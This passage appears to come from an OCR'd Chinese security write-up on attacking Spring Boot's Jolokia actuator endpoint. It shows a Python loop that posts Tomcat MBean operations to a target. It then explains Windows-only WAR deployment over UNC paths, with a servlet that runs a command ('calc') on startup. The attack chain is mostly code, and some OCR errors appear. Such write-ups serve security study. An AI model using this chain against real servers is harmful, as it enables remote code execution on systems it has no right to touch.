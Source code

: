 ```
“type”: “EXEC”,

“operation”: “start”,

“arguments”: []

}

flow = [create_realm, wirte_factory, write_url, stop, start] `for i in flow:

print(’%s MBean %s: %s …’ % (i[‘type’].title(), i[‘mbean’], i.get(‘operation’, i.get(‘attribute’))))

requests.post(url, json=i).json()` 
```

### 补充

**利用UNC部署war文件（只能用于windows）**

在 Tomcat Host Manager 这里可以利用 UNC 来部署 war 文件。实际上对于Tomcat:type=MBeanFactory 的createStandardHost，和 Host Manager 这里调用的是相同的方法。所以根据文章所述的方法，我们同样可以在Jolokia 里重现。不过可惜的是这里只对 Windows 有效。 首先去 spring-boot 的 Github 下载 spring-boot-samples-traditional，在 web.xml 里添加如下内容：

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>
        org.apache.catalina.servlets.DefaultServlet
    </servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet> `<servlet-mapping>

<servlet-name>default</servlet-name>

<url-pattern>/default</url-pattern>

</servlet-mapping>` 
```

然后修改 WebConfig.java，在 dispatcherServlet 添加执行命令的代码：

```
@Bean
// Only used when running in embedded servlet
public DispatcherServlet dispatcherServlet() throws Exception {
    Runtime.getRuntime().exec("calc");
    return new DispatcherServlet();
} 
```
